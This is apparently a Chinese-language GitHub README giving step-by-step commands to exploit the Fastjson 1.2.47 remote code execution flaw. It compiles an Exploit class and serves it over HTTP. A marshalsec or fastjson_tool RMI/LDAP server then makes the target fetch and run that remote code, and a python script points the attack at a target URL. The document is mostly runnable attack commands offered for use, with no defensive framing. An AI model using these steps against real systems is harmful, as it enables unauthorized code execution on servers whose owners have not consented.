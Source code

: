 ## 以Fastjson 1.2.47 利用为例
### marshalsec-0.0.3-SNAPSHOT-all.jar 启用 RMI/LDAP
编译Exploit.java生成Exploit.class
```
javac Exploit.java
```
python3 启一个 http 部署 Exploit.class
```
python3 -m http.server --bind 0.0.0.0 8888
```
marshalsec 开启 rmi
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://x.x.x.x:8888/#Exploit" 9999
```

### fastjson_tool.jar 启用 RMI/LDAP
[@wyzxxz](https://github.com/wyzxxz/fastjson_rce_tool)大佬的tools整合了rmi/ldap+命令执行,
```
java -cp fastjson_tool.jar fastjson.HRMIServer 127.0.0.1 9999 "touch /tmp/233"
```

### fastjson-1.2.47_rce.py
> ```
> +------------------------------------------------------------------------------------+
> +      RMIServer: rmi://ip:port/exp                                                                           +
> +      LDAPServer: ldap://ip:port/exp                                                                       +
> +------------------------------------------------------------------------------------+
> + USE: python3 <filename> <target-ip> <RMI/LDAPServer>                               +
> + EXP: python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ ldap://2.2.2.2:88/Object  +
> + VER: fastjson<=1.2.47                                                              +
> +------------------------------------------------------------------------------------+
> ```

执行py脚本
- http://1.1.1.1:8080/ 为fastjson漏洞主机
- rmi://2.2.2.2:9999/Exploit 为rmi服务
```
python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ rmi://2.2.2.2:9999/Exploit
```
